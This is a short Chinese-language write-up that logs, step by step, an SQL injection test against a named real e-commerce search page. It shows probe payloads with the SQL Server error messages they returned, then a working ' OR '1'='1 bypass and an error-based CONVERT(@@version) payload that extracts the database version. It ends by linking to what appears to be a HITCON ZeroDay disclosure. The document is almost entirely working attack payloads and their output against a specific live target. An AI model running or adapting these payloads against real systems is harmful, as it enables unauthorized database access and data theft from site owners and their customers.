```yaml
---
title: SQL Injection wowcard Success
description: SQL Injection wowcard Success
---
```


## 前言

- 目標: `https://shop.wowcard.com.tw/wsearch.asp`
- 使用 POST + FormData，不需要煩惱 URL Encode + Decode 的問題

## 測試過程

1. `'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

遺漏字元字串 ') Order By 上刊日期 desc' 後面的引號。

/Scripts/DataList_WOWdetail.js, 行318
```

2. `123'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

3. `%123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

4. `123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

5. `123'))--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

6. `123')--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Html_Inc/Search_main_kind.asp, 行18
```

7. `123')'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '--123%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

8. `' OR '1' = '1`

成功搜尋到

9. `' AND '1' = '1`

成功搜尋到 0 筆資料，推測應該是我們還在某個 `'` 或是 `)` 裡面，所以註解沒有生效

10. `' AND 1 = CONVERT(int,@@version) OR '1' = '1`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e07'

將 nvarchar 值 'Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3 2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) ' 轉換成資料類型 int 時，轉換失敗。

/Scripts/DataList_WOWdetail.js, 行318
```

成功提取到 DB 版本號

```
Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3 2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1)
```

11. 接下來請參考 [ZD-2025-01031](https://zeroday.hitcon.org/vulnerability/ZD-2025-01031)
